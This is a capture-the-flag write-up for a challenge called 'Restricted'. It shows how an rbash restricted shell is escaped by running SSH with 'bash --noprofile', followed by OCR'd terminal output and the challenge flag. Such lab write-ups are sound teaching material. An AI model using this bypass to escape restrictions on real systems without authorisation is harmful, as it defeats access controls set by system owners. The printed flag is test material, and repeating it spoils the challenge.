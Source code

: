 # Restricted
> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

## About the Challenge
We were given a source code (You can download the file [here](misc_restricted.zip)) that contains `sshd_config` and `bash_profile`

## How to Solve?
If we login normally using this command

```
ssh -p PORT restricted@IP
```

You still can get into the server, but there is some restriction (You can't use some commands, you can move into another directory, etc.)


[Image extracted text: permitted by applicable
law _
restricted@ng-restricted
-7b5f545587-pm2tv:~$
1s
~rbash:
ls:
command not
found
restricted@ng-restricted-thgsc-7b5f545587-pm2tv:~$
[home/restricted
restricted@ng-restricted-thgsc-7b5f545587-pmztv:~$
env
thgsc
pwd]


And to bypass this, Im using this [website](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) as a reference. Here is the command

```
ssh -p PORT restricted@IP -t "bash --noprofile" 
```


[Image extracted text: The authenticity
of host
[165.227.224.40]:31750 ([165.227.224.40]:31750)
can
be estal
ED25519
key
fingerprint is SHA256: cAQBhvlkikmVEqxHIApvLxteba/azXZqRPOkSv+ZWak_
This host
key is
known
by the following
other names
addresses
ssh/known_hosts
36: [hashed
name]
Are you
sure
you want to
continue
connecting (yes/no/ [fingerprint]) ?
yes
Warning=
Permanently added
[165.227.224.40]:31750
(ED25519) to the list of
known hosts
restricted@ng-restricted-ihelp-844c859d8f
77t5n:~$
15
restricted@ng-restricted-ihe7p-844c859d8f-77t5n:~$
15
~la
total 28
drwxr
xr-X 1 restricted restricted 4096 Mar 16 16:10
drwxr
xr-X 1
root
root
4096 Mar 16 16:10
rW-r--r-
restricted
restricted
220 Mar 16 16.10 .bash_logout
rwxr-Xr-X 1
root
root
15 Mar 15
21.39
bash_profile
rW-r--r-
restricted
restricted 3526 Mar 16 16:10
bashrc
drwxr
xr-X 1
restricted
restricted 4096 Mar 16 16:10
bin
rW-r-
restricted
restricted
807 Mar 16 16:10 .profile
restricted@ng-restricted-ihe7p-844c859d8f-77+5n:~$ sudo
bash:
command not
found
restricted@ng-restricted-iheZp
844c859d8f-77t5n:~$
cd
restricted@ng-restricted-ihe7p-844c859d8f-77+5n:/$
15
bin
dev
flag_8dpsy
lib
media
mnt
proc
run
Srv
tmpl
var
boot
etc
home
lib64
memories . dump
opt
root
sbin
Sys
usr
restricted@ng-restricted-ihe7p-844c859d8f-77+5n:/$ cat
8dpsy
HTB{r35trlctlOn5_4r3_pOw3r1355}
restricted@ng-restricted-iheZp
844c859d8f-77t5n:/$
sudo
flag]


```
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```